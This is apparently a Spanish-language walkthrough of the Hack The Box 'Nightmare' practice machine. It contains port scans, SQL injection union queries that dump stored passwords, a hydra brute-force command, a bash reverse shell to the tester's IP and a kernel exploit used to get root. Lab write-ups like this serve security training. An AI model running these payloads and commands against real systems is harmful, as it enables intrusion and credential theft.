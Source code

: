 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Nightmare          |
| Os                     | Linux              |
| Difficulty             | Insane             |
| Points                 | 0                  |
| IP                     | 10.10.10.66        |

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Nightmare/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.66
```

![nmap 1](/assets/images/Nightmare/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.66 -oG allPorts
```

![nmap2](/assets/images/Nightmare/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p22,80,2222 10.10.10.66 -oN targeted
```

![nmap 3](/assets/images/Nightmare/nmap3.png)

Ahora que sabemos que el sitio nos permite registrarnos, crearemos un usuario y nos logearemos.
Despues hacemos una prueba al agregar una nota y vemos que es vulnerable a una inyeccion de sql.

![SQLI](/assets/images/Nightmare/sql_test.png)

Tambien despues de revisar si existen despues de este login page mas tipo de inyecciones, vemos que no. Asi que parece que tendremos que estar registrando usuarios para obtener informacion y ademas terminar cerrando la consulta con una ').
Las consultas que haremos son las siguientes:

```sql
') union select 1,schema_name from information_schema.schemata -- -
union select 1,table_name from information_schema.tables where table_schema="sysadmin" -- -
union select 1,column_name from information_schema.columns where table_schema="sysadmin" and table_name="users" -- -
union select 1,group_concat (username,0x3a,password) from sysadmin.users-- -
```

![SQLI 1](/assets/images/Nightmare/SQLI1.png)

![SQLI 2](/assets/images/Nightmare/SQLI2.png)

![SQLI 3](/assets/images/Nightmare/SQLI3.png)

![SQLI 4](/assets/images/Nightmare/SQLI4.png)

Ahora tenemos las contrasenas y usuarios almacenados en la base de datos. 
Las almacenaremos y acomodaremos en filas para poder intentar entrar con otra herramienta por fuerza bruta a travez del puerto 2222 que es de ssh con hydra

```s
#Para separar los usuarios, de las contrasenas
cat data | awk '{print$1}' FS=":" > users
cat data | awk '{print$2}' FS=":" > passwords
hydra -s 2222 ssh://10.10.10.66 -L users -P passwords
```

![hydra](/assets/images/Nightmare/hydra.png)

Ahora que tenemos claves potenciales, podemos entrar por ssh. Parece que la contrasena es valida, pero no nos da acceso a la insersion de comandos. Como no nos da acceso, lo siguiente seria intentar entrar con SFTP, de la forma siguiente:

```s
sftp -P 2222 ftpuser@10.10.10.66
```

Ahora podemos ver algunos archivos, navegar por el usuario e incluso visualizar la flag pero no tenemos permisos para descargarla.
Lo siguiente seria buscar algun exploit para este servicio de sftp, ya que es version 3 y existen <a href="https://raw.githubusercontent.com/SECFORCE/sftp-exploit/master/sftp-exploit.py">unos</a> para versiones igual o menores a la 6.6. 

Ahora nos creamos un directorio en la ruta /mnt/montura y ejecutamos

```s
sshfs -p 2222 ftpuser@10.10.10.66: /mnt/montura/
```

Podemos ahora ver claramente la carpeta passwd y cualquier otra, menos la flag.

Lo siguiente sera usar el exploit, hay que cambiar los parametros de la IP, Puerto, Usuario y contrasena, lo mas importante seria el comando a ejecutar. Intentaremos mandando un ping de la siguiente forma:

```s
tcpdump -i tun0 -n
```

Como no recibimos trazas, lo siguiente seria intentar entrar con la contrasena que encontramos pero ahora a travez del servicio de ftp

```s
sftp -P 2222 ftpuser@10.10.10.66
```

![sftp](/assets/images/Nightmare/sftp.png)

Lo siguiente por hacer es que como si nos dio coneccion, podremos ahora usar el exploit anteriormente mencionado. En esta parte presente problemas y me atore un poco, por las librerias de pip que se instalaban para python3, yo creo que la forma mas sencilla de solucionarlo era modificando la ruta de pip /home/rebick/.local/lib/pip en la cabecera que indica que version de python usar y senalar el python2

Como la traza de itcmp ha llegado correctamente, lo que podemos hacer para establecer una reverse shell ahora, es hacernos un archivo index.html, de la manera siguiente

```bash
#!/bin/bash 

bash -i >& /dev/tcp/10.10.14.29/443 0>&1
```

![ftp user](/assets/images/Nightmare/ftp_user.png)

Una vez dentro, iniciamos una shell iteractiva:

```s
script /dev/null -c bash
tty
```

CTRL+z

```s
stty raw -echo; fg
reset xterm
export SHELL=bash
```

Ahora para escalar privilegios, desde raiz vamos a buscar algun binario que nos permita escalarlos de la manera siguiente:

```s
find \-perm -4000 2>/dev/null
find \-perm -2000 2>/dev/null
```

Otra forma de listar vias potenciales es a traves de las capabilities con:

```s
getcap -r / 2>/dev/null
```

encontramos una via potencial a traves del sls, el cual es practicamente un duplicado del comando ls, lo siguiente seria analizarlo con ghidra para comprender mas sobre lo que esta sucediendo a bajo nivel.

Para copiarnos el sls, lo convertiremos a base64 y lo copiaremos para guardarlo en nuestra maquina.

```s
base64 -w 0 /usr/bin/sls; echo
```

Y ahora para poder modificar un archivo que se esta ejecutando:

```s
cat sls | base64 -d | sponge sls 
```

Otro metodo de analisis que podemos usar es:

```s
radare2 ./sls
```
Lo siguiente seran comandos dentro de radare

```s
#Para analizar todas las funciones
aaa
#Para listar las funciones existentes
afl
#Para sincronizarse con main *EJEMPLo
s main
#Para ver en ensamblador las instrucciones que se estan ejecutando
pdf
#Para ver en tipo C las funciones
pdc
#Para verlo mejor, se puede hacer un 
VVV
#Despues podemos centrar la caja de funcion con solo teclear las iniciales que estan en la cabecera.
#Si queremos mover los bloques hay que presionar la tecla y se vuelve a presionar para que se quede quieto
c
#Para hacer un Highlight hay que poner una
/ var_34h
#Para ver las direcciones de memoria hay que poner una 
P
#Para cambiar el nombre de la variable
afvn LOOP_COUNTER var_2ch
```

![Radar view](/assets/images/Nightmare/radar_view.png)

Para meter breakpoints, apoyandonos de radare para ver las direcciones en cada parte del codigo ejecutandose hay otra herramienta como:

```s
gdb ./sls
```
Despues de analizar el programa, parece que al utilizar el sls -b, dando un slato de linea e insertando el comando que deseamos, lograremos tener acceso al grupo decoder. Si insertamos el comando sh podremos tener una shell con este privilegio y ahora ver la flag de usuario.

Ahora, para ganarnos el root. Si vemos la version del kernel con /etc/os-release y encontramos un exploit en <a href="https://github.com/xairy/kernel-exploits/blob/master/CVE-2017-1000112/poc.c">github</a>.
Como no tenemos permiso de escritura, nos tendremos que meter al directorio test, con nuestra shell con el grupo decoder y ahi hacer el wget hacia nuestro equipo del archivo poc.

Se presenta un error de reconocimiento de kernel, asi que lo que haremos es borrar los demas kernel y dejar la version del nuestro para que pueda ejecutarse bien.

Lo siguiente sera salirnos de la shell que tenemos, ya que tenemos permisos de ejecusion, pero no de acceso dentro de test y podremos ejecutarlo correctamente.

![Root](/assets/images/Nightmare/root.png)

![Powned](/assets/images/Nightmare/powned.png)
